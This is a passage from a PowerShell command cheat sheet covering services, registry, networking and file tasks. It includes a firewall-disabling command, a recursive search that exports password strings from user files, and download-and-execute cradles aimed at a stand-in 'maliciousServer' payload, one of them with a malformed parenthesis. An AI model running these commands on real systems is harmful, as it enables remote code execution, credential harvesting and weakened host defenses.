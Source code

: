   - `stop service -Name [Spooler] -Force`
- **set-service**
   - `set-service -Name [Spooler] -StartupType Disabled`
- **get-content**: Get content of item 
   - `get-content` or `gc`
- **get-itemproperty**
   - `Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Where-Object {($_.DisplayName -eq "name")}`
- **PS Command History**:
   - `C:\Users\%USER%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine`
- **Execute File in PowerShell**
   - [Details: social.technet.microsoft.com](https://social.technet.microsoft.com/wiki/contents/articles/7703.powershell-running-executables.aspx)
   - Direct: `.\testapp.exe`
- **Import Module**
   - `Import-Module <modulepath>`
   - `Get-Command -Module <modulename>`: List all commands of module

<br />

## PS NETWORK
- `Get-NetIPAddress | Format-Table`
- `Get-NetAdapter`
- `Get-NetIPConfiguration -All`
- `Test-NetConnection [DST IPv4]`
- `Test-NetConnection www.example.com -InformationLevel Detailed`
- `Test-NetConnection www.example.com -Traceroute`
- `Get-NetRoute | Format-List -Property *`: Routing Table
- `Get-NetTCPConnection`
- `Set-NetFirewallProfile -Profile OPTION -Enabled False/True`
   - OPTION = `Domain` / `Public` / `Private`

<br />

## PS DATA / FILE
- **Remove User Jumplists**
   - `gci` / `get-ChildItem`: Show files in one or more specified locations
```
$profiles = gci \\server\share
foreach ($profile in $profiles)
{
gci ($profile.fullname + '\UPM_Profile\AppData\Roaming\Microsoft\Windows\Recent\') | Where-Object LastWriteTime -lt (get-date).AddDays(-7) | remove-item -Force -Recurse
}
```
- **Search for Sensitive Data**
   ```
   Get-ChildItem -Path "c:\users\" -Recurse -Force -Include *.doc, *.docx, *.xls, *.xlsx, *.txt, *.pdf, *.ppt, *.pptx | Select-String "[P|p]assword" |    
   Select-Object Path, Line, LineNumber | Export-Csv "c:\Users\%USER%\Desktop\passwordPII.csv"
   ```
- **Script Execution**
   - `iex New-Object NEt.Webclient).DownloadString('http://maliciousServer/payload.ps1')`: iex = invoke executable
   - PSv3 onwards: `iex (iwr 'http://maliciousServer/payload.ps1')`
